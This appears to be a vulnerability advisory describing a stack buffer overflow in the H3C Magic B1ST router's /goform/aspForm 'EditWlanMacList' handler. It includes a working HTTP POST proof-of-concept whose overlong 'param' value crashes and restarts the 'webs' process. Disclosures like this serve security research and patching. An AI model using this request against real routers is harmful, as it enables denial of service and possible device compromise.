


## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability
In route`/goform/aspForm`, the value of the key `CMD` is `EditWlanMacList`, the program will go into the following handling function.




First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v27` on the stack. In this function, the length of `param` is limited to 511 Bytes，but `v27` only have 64 Byte. Also, the parameter `%s` of `sscanf` didn't limit the copy length.



## PoC
```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 173
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp?refresh=yes?refreshFlag=Tue%20Jun%2006%202023%2016:39:29%20GMT+0800%20(China%20Standard%20Time)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EditWlanMacList&GO=wan_new.asp&param=1;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

## Result

the process `webs` restart


